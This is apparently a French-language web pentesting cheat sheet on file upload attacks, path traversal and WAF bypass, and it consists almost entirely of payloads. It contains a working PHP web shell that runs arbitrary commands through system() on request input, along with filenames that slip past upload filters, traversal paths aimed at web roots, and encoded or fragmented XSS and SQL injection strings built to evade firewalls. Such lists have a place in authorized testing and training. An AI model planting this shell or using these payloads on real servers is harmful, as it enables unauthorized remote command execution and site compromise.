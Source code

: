 ### **File Upload Attacks**

#### **Upload de Web Shell**
```php
<!-- Simple PHP Web Shell -->
<?php
if(isset($_REQUEST['cmd'])){
    echo "<pre>";
    $cmd = ($_REQUEST['cmd']);
    system($cmd);
    echo "</pre>";
    die;
}
?>
<form>
<input type="text" name="cmd" placeholder="Command">
<input type="submit" value="Execute">
</form>

<!-- Techniques de bypass -->
# Extension double
shell.php.jpg

# Null byte (anciennes versions PHP)
shell.php%00.jpg

# Majuscules
shell.PHP

# MIME type spoofing
# Modifier Content-Type: image/jpeg
```

#### **Path Traversal**
```bash
# Upload avec path traversal
filename="../../../var/www/html/shell.php"
filename="..\\..\\..\\xampp\\htdocs\\shell.php"

# Bypass de filtres
filename="....//....//....//var/www/html/shell.php"
filename="..%2f..%2f..%2fvar/www/html/shell.php"
```

## 🛡️ Contournement de Protections

### **WAF Bypass**

#### **Techniques générales**
```bash
# Encodage
%3Cscript%3E (URL encoding)
&#x3C;script&#x3E; (HTML entities)
\u003cscript\u003e (Unicode)

# Fragmentation
<scr<script>ipt>alert(1)</script>

# Commentaires
/**/UNION/**/SELECT/**/

# Variations de casse
UnIoN sElEcT
```